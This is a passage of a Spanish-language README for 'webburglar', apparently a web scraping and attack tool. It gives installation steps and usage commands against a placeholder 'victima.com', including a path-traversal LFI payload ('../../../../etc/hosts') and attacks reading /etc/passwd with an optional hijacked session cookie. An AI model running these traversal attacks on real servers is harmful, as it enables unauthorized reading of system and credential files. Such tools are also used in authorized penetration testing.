Ejemplo:  
```bash
python webburglar.py -u http://victima.com/vuln.php -F page -p etc/hosts -D 4
```
Generará el payload:  
```
../../../../etc/hosts
```

---

## ⚙️ Parámetros adicionales

- `-C`: permite pasar una cookie de sesión válida para acceder a recursos autenticados.  
- `-D`: nivel de recursividad tanto para webscraping como para ataques LFI.  

---

## 📦 Instalación

```bash
git clone https://github.com/tuusuario/webburglar.git
cd webburglar
pip install -r requirements.txt
```

---

## 🌐 Ejemplos de uso

### 1. WebScraping recursivo
```bash
python webburglar.py -u http://victima.com -D 2
```

### 2. Mostrar también enlaces externos
```bash
python webburglar.py -u http://victima.com -D 1 -e
```

### 3. Listado de formularios en la web
```bash
python webburglar.py -u http://victima.com/form.php -D 1
```

### 4. Ataque LFI a `/etc/passwd`
```bash
python webburglar.py -u http://victima.com/vuln.php -F file -p etc/passwd -D 5
```

### 5. Acceso con cookie de sesión
```bash
python webburglar.py -u http://victima.com/panel -C "PHPSESSID=abc123"
```

---

## 📊 Salida de resultados

La aplicación presenta los resultados de forma clara en consola, mostrando:
- Listados de enlaces.  
- Formularios detectados.  
- Archivos y directorios enumerados.  
- Contenido extraído mediante LFI.  


